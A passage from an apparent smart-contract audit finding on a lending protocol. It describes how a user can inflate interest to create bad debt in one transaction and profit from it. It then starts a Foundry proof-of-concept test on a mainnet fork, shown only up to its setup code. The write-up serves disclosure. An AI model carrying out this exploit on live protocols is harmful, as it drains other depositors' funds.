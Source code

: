 At this point the user is already in bad debt, but due to points 1-2, it's still not liquidatable. After calling `Lender.accrueInterest` the account can be liquidated. This bad debt caused is the funds lost by the other users.

This scenario is not profitable to the malicious user, but can be modified to make it profitable: the user can deposit large amount to lender before these steps, meaning the inflated interest rate will be accured by user's deposit to lender, but it will not be paid by the user due to bad debt (user will deposit 1051 DAI, withdraw 1000 DAI, and gain some share of accured 630 DAI, for example if he doubles the lender's TVL, he will gain 315 DAI - protocol fees).

## Impact

Malicious user can create bad debt to his account in 1 transaction. Bad debt is the amount not withdrawable from the lender by users who deposited. Since users will know that the lender doesn't have enough assets to pay out to all users, it can cause bank run since first users to withdraw from lender will be able to do so, while those who are the last to withdraw will lose their funds.

## Proof of concept

The scenario above is demonstrated in the test, create test/Exploit.t.sol:
```ts
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import {MAX_RATE, DEFAULT_ANTE, DEFAULT_N_SIGMA, LIQUIDATION_INCENTIVE} from "src/libraries/constants/Constants.sol";
import {Q96} from "src/libraries/constants/Q.sol";
import {zip} from "src/libraries/Positions.sol";

import "src/Borrower.sol";
import "src/Factory.sol";
import "src/Lender.sol";
import "src/RateModel.sol";

import {FatFactory, VolatilityOracleMock} from "./Utils.sol";

contract RateModelMax is IRateModel {
    uint256 private constant _A = 6.1010463348e20;

    uint256 private constant _B = _A / 1e18;

    /// @inheritdoc IRateModel
    function getYieldPerSecond(uint256 utilization, address) external pure returns (uint256) {
        unchecked {
            return (utilization < 0.99e18) ? _A / (1e18 - utilization) - _B : MAX_RATE;
        }
    }
}

contract ExploitTest is Test, IManager, ILiquidator {
    IUniswapV3Pool constant pool = IUniswapV3Pool(0xC2e9F25Be6257c210d7Adf0D4Cd6E3E881ba25f8);
    ERC20 constant asset0 = ERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    ERC20 constant asset1 = ERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    Lender immutable lender0;
    Lender immutable lender1;
    Borrower immutable account;

    constructor() {
        vm.createSelectFork(vm.rpcUrl("mainnet"));
        vm.rollFork(15_348_451);

```